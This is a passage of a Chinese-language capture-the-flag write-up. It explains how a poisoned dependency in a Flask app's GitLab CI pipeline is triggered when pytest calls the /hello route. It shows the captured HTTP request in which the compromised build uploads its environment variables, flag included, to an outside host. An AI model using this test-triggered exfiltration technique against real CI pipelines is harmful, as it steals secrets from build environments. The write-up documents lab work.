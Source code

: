 之所以会 awesome-app 会触发恶意代码，是因为 pipeline 中进行了 pytest：

```plain
pytest -rA test_hello.py
```

而 test\_hello.py 中访问了 flask 的 hello 函数：

```plain
import pytest
from app import app as flask_app


@pytest.fixture()
def app():
    yield flask_app


@pytest.fixture()
def client(app):
    return app.test_client()


def test_hello(client):
    response = client.get("/hello")
    assert b"Hello, User" in response.data
```

因此触发了恶意方法：

```plain
def hello():
    return greet.hello('User')
```

最后两个 pipeline 都构建成功就可以得到 flag，如果中途出了什么问题可以以 root 登上 gitlab 手动启动一下 pipeline 看看什么问题。

```plain
POST / HTTP/1.1
Host: 10.207.127.144:39502
User-Agent: curl/7.88.1
Accept: */*
Content-Length: 720
Content-Type: multipart/form-data; boundary=------------------------848315760974512a

--------------------------848315760974512a
Content-Disposition: form-data; name="file"; filename="flag.txt"
Content-Type: text/plain

HOSTNAME=bdc53e195baf
PYTHON_VERSION=3.8.18
PWD=/app
FLAG11=xxx
PYTHON_SETUPTOOLS_VERSION=57.5.0
HOME=/root
LANG=C.UTF-8
GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568
SHLVL=1
PYTHON_PIP_VERSION=23.0.1
PYTHON_GET_PIP_SHA256=22b849a10f86f5ddf7ce148ca2a31214504ee6c83ef626840fde6e5dcd809d11
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/c6add47b0abf67511cdfb4734771cbab403af062/public/get-pip.py
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env

--------------------------848315760974512a--
```
